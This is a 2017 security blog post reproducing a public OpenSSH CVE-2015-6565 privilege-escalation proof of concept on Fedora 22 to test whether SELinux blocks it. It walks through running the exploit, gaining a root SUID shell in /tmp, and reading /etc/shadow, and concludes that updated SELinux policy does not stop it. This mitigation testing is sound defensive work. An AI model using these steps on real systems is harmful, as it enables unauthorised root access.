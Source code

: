 +++
date = "2017-02-02T09:46:27+09:00"
title = "OpenSSH vulnerability (CVE-2015-6565) PoC with SELinux"

+++

We found there was information about PoC to get local priveledge with
CVE-2015-6565(vulnerability for OpenSSH), then we want to make sure can we
protect it by using SELinux or not.

(Written by Kazuki Omo:ka-omo@sios.com).
  

* * *

## Reference

#### <http://www.openwall.com/lists/oss-security/2017/01/26/2>

## Prepare for PoC

Here is a description how to reproduce it. **I used Fedora22-VMWare Guest
because this vulnerability is for OpenSSH 6.8-6.9. Also I assigned only 1 CPU
to that guest.**

  1. Install Fedora22 with OpenSSH-enabled / enabled gcc and those dev tool. Because this is for PoC I didn't update Fedora22(everything package versions are same as DVD).

The openssh version is 6.8p1-5 ;

    
        [root@localhost ~]# rpm -qa|grep -i openssh
        openssh-6.8p1-5.fc22.x86_64
        openssh-server-6.8p1-5.fc22.x86_64
        openssh-clients-6.8p1-5.fc22.x86_64
    

  2. Put PoC code which you can see on [the referenced page.](http://www.openwall.com/lists/oss-security/2017/01/26/2)

  3. Compile that code on PoC Fedora22;
    
        [jsossug@localhost ~]$  gcc not_an_sshnuke.c -o not_an_sshnuke
    

* * *

## PoC

Now it's ready for PoC.

  1. Run the code with normal user account;
    
        [jsossug@localhost ~]$ ./not_an_sshnuke /dev/pts/3
    

  2. Run the code with normal user account;
    
        [jsossug@localhost ~]$ ./not_an_sshnuke /dev/pts/3
        [*] Waiting for slave device /dev/pts/3
    
    

  3. Open 2 terminals and ssh to the PoC machine in each terminal with normal user account;
    
        [jsossug@extest ~]$ ssh -l jsossug 172.16.148.139
        jsossug@172.16.148.139's password: 
        Last login: Sun Jan 29 14:06:21 2017 from 172.16.148.1
        [jsossug@localhost ~]$ 
    
    
        [jsossug@extest ~]$ ssh -l jsossug 172.16.148.139
        jsossug@172.16.148.139's password: 
        Last login: Sun Jan 29 14:06:21 2017 from 172.16.148.1
        [jsossug@localhost ~]$ 
    

  4. Open another terminal and ssh to the PoC machine with **root** account. If ;
    
        [jsossug@extest ~]$ ssh -l root 172.16.148.139
        root@172.16.148.139's password: 
        Last login: Sun Jan 29 14:06:37 2017 from 172.16.148.1
        [root@localhost ~]# 
    

  5. On the first terminal, you can see following results;
    
        [jsossug@localhost src]$ ./not_an_sshnuke /dev/pts/3
        [*] Waiting for slave device /dev/pts/3
        [+] Got PTY slave /dev/pts/3
        [+] Making PTY slave the controlling terminal
        [+] SUID shell at /tmp/sh
    

  6. Just want to make sure /tmp/sh attribute;
    
        [root@localhost ~]# ls -lZ /tmp/sh
        -rwsr-xr-x. 1 root root unconfined_u:object_r:user_tmp_t:s0 1084536 Feb  2 01:31 /tmp/sh
    

  7. Then run /tmp/sh on first terminal with following option;
    
        [jsossug@localhost src]$ /tmp/sh --norc --noprofile -p
    

  8. Now we got "euid=0";
    
        sh-4.3# id
        uid=1000(jsossug) gid=1000(jsossug) euid=0(root) groups=1000(jsossug),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
        sh-4.3# cat /etc/shadow
        bin:*:16489:0:99999:7:::
        daemon:*:16489:0:99999:7:::
        adm:*:16489:0:99999:7:::
        lp:*:16489:0:99999:7:::
    

  9. SELinux is "Enabled";
    
        sh-4.3# getenforce
        Enforcing
    

* * *

## PoC with "updated SELinux"

So, we found normal(non-upgraded) SELinux Policy on Fedora22 can't protect
tihs vulnerability.

Then now we wonder how about "updated SELinux Policy".

  1. Update SELinux Policy;
    
        [root@localhost ~]# dnf -y update selinux-policy-targeted
        Fedora 22 - x86_64 - Updates                    2.2 MB/s |  23 MB     00:10    
        Last metadata expiration check performed 0:00:13 ago on Wed Feb  1 04:46:43 2017.
        Dependencies resolved.
        ================================================================================
         Package                    Arch      Version                  Repository  Size
        ================================================================================
        Upgrading:
         selinux-policy             noarch    3.13.1-128.28.fc22       updates    428 k
         selinux-policy-targeted    noarch    3.13.1-128.28.fc22       updates    4.1 M
        
        Transaction Summary
        ================================================================================
        Upgrade  2 Packages
        
        Total download size: 4.5 M
        Downloading Packages:
          (1/2): selinux-policy-3.13.1-128.28.fc22.noarch 1.6 MB/s | 428 kB     00:00    
          (2/2): selinux-policy-targeted-3.13.1-128.28.fc 998 kB/s | 4.1 MB     00:04    
        --------------------------------------------------------------------------------
        Total                                           825 kB/s | 4.5 MB     00:05     
        Running transaction check
        Transaction check succeeded.
        Running transaction test
        Transaction test succeeded.
        Running transaction
          Upgrading   : selinux-policy-3.13.1-128.28.fc22.noarch                    1/4 
          Upgrading   : selinux-policy-targeted-3.13.1-128.28.fc22.noarch           2/4 
          Cleanup     : selinux-policy-targeted-3.13.1-122.fc22.noarch              3/4 
          Cleanup     : selinux-policy-3.13.1-122.fc22.noarch                       4/4 
          Verifying   : selinux-policy-targeted-3.13.1-128.28.fc22.noarch           1/4 
          Verifying   : selinux-policy-3.13.1-128.28.fc22.noarch                    2/4 
          Verifying   : selinux-policy-3.13.1-122.fc22.noarch                       3/4 
          Verifying   : selinux-policy-targeted-3.13.1-122.fc22.noarch              4/4 
        
        Upgraded:
          selinux-policy.noarch 3.13.1-128.28.fc22                                      
          selinux-policy-targeted.noarch 3.13.1-128.28.fc22                             
        
        Complete!
        [root@localhost ~]# getenforce
        Enforcing
       

  2. We continue to that PoC with updated SELinux Policy again;
    
        [jsossug@localhost src]$ ./not_an_sshnuke /dev/pts/3
        [*] Waiting for slave device /dev/pts/3
        [+] Got PTY slave /dev/pts/3
        [+] Making PTY slave the controlling terminal
        [+] SUID shell at /tmp/sh
    

  3. Just want to make sure /tmp/sh attribute;
    
        [root@localhost ~]# ls -lZ /tmp/sh
        -rwsr-xr-x. 1 root root unconfined_u:object_r:user_tmp_t:s0 1084536 Feb  2 01:47 /tmp/sh
    

  4. Run /tmp/sh with updated SELinux Policy;
    
        [jsossug@localhost src]$ /tmp/sh --norc --noprofile -p
        sh-4.3# id
        uid=1000(jsossug) gid=1000(jsossug) euid=0(root) groups=1000(jsossug),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
        sh-4.3# cat /etc/shadow
        bin:*:16489:0:99999:7:::
        daemon:*:16489:0:99999:7:::
        adm:*:16489:0:99999:7:::
        lp:*:16489:0:99999:7:::
        sh-4.3# exit
        exit
        [jsossug@localhost src]$ getenforce
        Enforcing
    

  5. Just we want to make sure SELinux Policy is updated;
    
        [jsossug@localhost src]$ rpm -qa|grep -i selinux-policy
        selinux-policy-3.13.1-128.28.fc22.noarch
        selinux-policy-targeted-3.13.1-128.28.fc22.noarch
    

It seems that even if we update SELinux Policy, we can't mitigate this
vulnerability(CVE-2015-6565).

* * *

## Conclusion

Now we could see that CVE-2015-6565 PoC is successfull even if SELinux is
enforcing. The main reason is because that vulnerability is using TIOCSTI +
ioctl.

This seems to be close to [CVE-2016-7545(can escape SELinux sandboxing). In
that vulnerability, we could fix it by updating
policycoreutils.](https://www.spinics.net/lists/selinux/msg20112.html)

Probably we can modify SELinux policy and could be mitigate this
vulnerability. We will continue to check it.

Also we couldn't reproduce it on Fedora25+openssh6.8p1.

